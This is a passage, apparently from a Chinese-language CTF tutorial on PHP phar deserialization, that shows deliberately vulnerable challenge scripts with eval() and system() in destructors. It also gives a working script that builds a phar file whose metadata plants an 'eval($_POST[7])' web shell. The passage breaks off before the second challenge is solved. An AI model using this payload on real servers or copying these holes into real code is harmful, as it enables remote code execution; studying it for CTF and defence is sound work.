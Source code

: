 输出:

```php
m0c1nu7 is the best
```

### 例题：

```php
<?php 
if(isset($_GET['filename'])){
        $filename=$_GET['filename'];
        class MyClass{
                var $output="echo 'Try again';";
                function __destruct(){
                        eval($this->output);
                }
        }
        file_exists($filename);
}else{
        highlight_file(__FILE__);
}
 ?>
```

没有反序列化函数，用常规思路根本做不了，利用phar反序列化，构造脚本

```php
<?php 
class MyClass{
        var $output = 'eval($_POST[7]);';
}

$o = new MyClass();
$filename = 'poc.phar';
file_exists($filename)?unlink($filename) : null;
$phar = new Phar($filename);
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString('test.txt','m0c1nu7');
$phar->stopBuffering();
 ?>
```

### 例题:

```php
<?php
highlight_file(__FILE__);
class A { 
  protected $b = false; 
  protected $a = 'whoami'; 
  public function __destruct () { 
    if ($this->b) {
      system($this->a);
    }
  }
}
$hello = base64_encode('hello');
if (isset($_GET['hello'])) exit;
parse_str($_REQUEST['world']);
if (!$a) {
  header('Location: ?world=a=hello.txt');
}
$s = base64_decode($hello);
file_put_contents('hello.txt', $s);
```